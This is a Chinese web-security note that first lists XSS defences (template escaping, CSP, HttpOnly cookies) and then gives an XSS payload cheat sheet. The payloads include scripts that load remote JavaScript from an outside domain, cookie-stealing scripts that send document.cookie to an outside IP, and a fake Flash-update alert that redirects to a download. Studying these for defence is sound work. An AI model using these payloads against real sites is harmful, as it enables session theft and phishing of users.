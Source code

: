#### 4.2.1 使用模版引擎
开启模板引擎自带的 HTML 转义功能。例如：在 ejs 中，尽量使用 <%= data %> 而不是 <%- data %>；在 doT.js 中，尽量使用{{! data } 而不是 {{= data }；在 FreeMarker 中，确保引擎版本高于 2.3.24，并且选择正确的 freemarker.core.OutputFormat。


#### 4.2.2 避免内敛事件
尽量不要使用 onLoad="onload('{}')"、onClick="go('{}')"这种拼接内联事件的写法。在 JavaScript 中通过 .addEventlistener()事件绑定会更安全。


#### 4.2.3 避免拼接 HTML
前端采用拼接 HTML 的方法比较危险，如果框架允许，使用 createElement、setAttribute 之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。


#### 4.2.4 使用CSP
Content Security Policy：禁止加载外域代码，防止复杂的攻击逻辑；禁止外域提交，网站被攻击后，用户的数据不会泄露到外域；禁止内联脚本执行；禁止未授权的脚本执行。


#### 4.2.5 使用httponly
HTTP-only Cookie: 禁止 JavaScript 读取某些敏感 Cookie，攻击者完成 XSS 注入后也无法窃取此 Cookie。httponly无法完全的防御xss漏洞，它只是规定了不能使用js去获取cookie的内容，因此它只能防御利用xss进行cookie劫持的问题。Httponly是在set-cookie时标记的，可对单独某个参数标记也可对全部参数标记。由于设置httponly的方法比较简单，使用也很灵活，并且对防御cookie劫持非常有用，因此已经渐渐成为一种默认的标准。


# XSS-Payload
**弹窗**
```
<script>alert(1)</script><script>prompt(2)</script><script>confirm(3)</script><script>console.log(3)</script><script>document.write(1)</script>
```

**当不能弹窗的时候，可以用下面的payload来证明**
```
<script>console.log(3)</script><script>document.write(1)</script>
```

**引入外部js，可能需要短域名**
```
<script src=//xsshs.cn></script><img src onerror=appendChild(createElement("script")).src="//xsshs.cn/aaaa"><img src onerror=jQuery.getScript("//xsshs.cn/aaaa")>
```

**盗取cookie**
```
<script>window.location.href="http://2.2.2.2/?msg="+escape(document.cookie)</script><script>document.body.appendChild(document.createElement("img")).src="http://2.2.2.2/?msg="+escape(document.cookie)</script>
```

**结合弹窗和url跳转进行钓鱼**
```
<script>alert("您的flash版本过低，请更新您的flash版本"); window.location.href ="https://www.flash.cn/cdm/latest/flashplayer_install_cn.exe"</script>
```

**当xss的触发位置在标签外**
```
name=<script>alert(1)</script>
```
